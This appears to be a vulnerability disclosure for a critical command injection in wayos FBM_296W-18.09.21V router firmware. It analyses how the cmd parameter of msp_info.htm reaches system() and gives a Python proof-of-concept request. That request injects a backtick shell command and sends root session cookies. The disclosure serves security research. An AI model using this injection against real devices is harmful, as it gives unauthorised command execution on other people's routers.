 # wayos
# FBM_296W-18.09.21V Command Injection

# Firmware information
Firmware download address:https://drive.weixin.qq.com/s?k=ANgAJAcRAAc0HnVp1p

# Description:
A vulnerability was discovered in  FBM_296W-18.09.21V, which has been classified as critical. This issue affects the msp_info_htm function in the msp_info.htm file. Manipulation of the cmd parameter can lead to command injection.

# Analyse:
![](vx_images/204776377982476.png)

The a1 is the incoming value.First, check whether the incoming value contains 'flag'.If it is included, continue to check whether the flag variable is equal to 'cmd'.If so, call the httpd_get_parm function to obtain the address of the cmd parameter content.After this function is executed, if the returned value is not null or the address it points to is not '\0' (representing the end identifier of the string), V10 will be concatenated to V21.Then V21 is used as a parameter of the system function.

# poe

![](vx_images/446735911707115.png)


![](vx_images/104946677273424.png)


```
import requests

burp0_url = "http://192.168.0.1:80/msp_info.htm?flag=cmd&cmd=`echo%20aaa>longlong.txt`"
burp0_cookies = {"userid": "root", "gw_userid": "root,gw_passwd=70793897268FA8975B4286AAF4608282"}
burp0_headers = {"Accept": "application/json, text/javascript, */*", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Referer": "http://192.168.0.1/index.htm?_1420043663", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```





















